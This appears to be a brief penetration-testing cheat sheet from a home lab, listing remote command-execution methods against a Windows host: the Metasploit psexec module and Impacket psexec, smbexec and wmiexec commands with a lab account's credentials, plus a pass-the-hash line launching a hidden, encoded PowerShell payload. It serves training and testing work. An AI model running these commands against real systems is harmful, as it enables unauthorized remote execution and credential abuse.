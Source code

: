 # PSExec

## MSFConsole

`exploit/windows/smb/psexec`

## PSExec.py

`psexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

## alternatives

### smbexec

`smbexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

### wmiexec

#### 1

`wmiexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

#### 2

`wmiexec.py lab.justin-p.me/dwalker@10.11.12.101 'powershell -exec bypass -Noninteractive -windowstyle hidden -e 'PAYLOAD' -hashes a:hash`
